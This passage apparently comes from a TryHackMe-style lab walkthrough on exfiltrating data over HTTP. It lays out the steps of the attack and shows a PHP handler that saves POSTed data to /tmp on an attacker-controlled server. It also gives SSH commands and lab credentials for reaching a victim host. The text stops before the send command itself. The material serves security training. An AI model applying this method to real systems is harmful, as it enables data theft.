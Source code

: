 We will be using the HTTP protocol (not the HTTPS) in our scenario. Now let's assume that an attacker controls the web.thm.com server, and sensitive data must be sent from the JumpBox or  victim1.thm.com machine in our Network 2 environment (192.168.0.0/24). &#x20;

To exfiltrate data over the HTTP protocol, we can apply the following steps:

1. An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.

Let's follow and apply what we discussed in the previous steps. Remember, since we are using the HTTP protocol, the data will be sent in cleartext. However, we will be using other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format!

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Now from the **Jump** machine, connect to the victim1.thm.com machine via SSH to exfiltrate the required data over the HTTP protocol. Use the following SSH credentials: thm:tryhackme.

Connecting to Victim1 machine from Jump Box

```markup
thm@jump-box:~$ ssh thm@victim1.thm.com
```

You can also connect to it from AttackBox using port 2022 as follow,

Connecting to Victim1 machine from AttackBox

```markup
thm@attacker$ ssh thm@10.10.39.16 -p 2022
```

The goal is to transfer the folder's content, stored in /home/thm/task6, to another machine over the HTTP protocol.

Checking the Secret folder!

```markup
thm@victim1:~$ ls -l
total 12
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task4
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task5
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task6
drwxr-xr-x 1 root root 4096 Jun 19 19:43 task9
```
